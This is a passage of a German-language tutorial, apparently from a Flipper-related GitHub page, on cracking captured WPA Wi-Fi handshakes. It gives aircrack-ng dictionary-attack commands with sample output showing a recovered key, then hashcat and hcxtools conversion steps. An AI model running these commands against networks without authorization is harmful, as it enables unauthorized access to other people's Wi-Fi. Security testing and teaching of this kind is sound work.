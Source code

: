 #### Schritt 2: Cracking starten

```bash
# Basic Dictionary Attack
aircrack-ng -w /tmp/wordlist.txt /tmp/handshakes/handshake-01.cap

# Output:
#                                Aircrack-ng 1.x
#
#      [00:00:02] 8/8 keys tested (3.85 k/s)
#
#      Time left: 0 seconds                                      100.00%
#
#                           KEY FOUND! [ password123 ]
#
#      Master Key     : AB CD EF 01 23 45 67 89 ...
#      Transient Key  : ...
#      EAPOL HMAC     : ...
```

**Erfolg!** 🎉 Passwort ist "password123"

#### Erweiterte Optionen

**Mit ESSID spezifizieren (bei mehreren Netzwerken in CAP):**
```bash
aircrack-ng -w wordlist.txt -e "MeinNetz" handshake-01.cap
```

**Mit BSSID spezifizieren:**
```bash
aircrack-ng -w wordlist.txt -b AA:BB:CC:DD:EE:FF handshake-01.cap
```

**Multi-Core nutzen:**
```bash
# aircrack-ng nutzt automatisch alle Cores
# Aber für bessere Performance: GPU nutzen (hashcat)
```

### Cracking mit hashcat (GPU - auf PC)

**Warum hashcat?**
- GPU-beschleunigt (100x - 1000x schneller)
- Unterstützt komplexe Attack-Modi
- Professioneller Standard

#### Schritt 1: Handshake konvertieren

**Auf dem Flipper (oder PC):**
```bash
# Installiere hcxtools
apt-get install hcxtools

# Konvertiere zu hashcat Format
hcxpcapngtool -o handshake.hc22000 handshake-01.cap

# Oder mit älterem Format (für hashcat <6.0):
hcxpcaptool -z handshake.hccapx handshake-01.cap
```
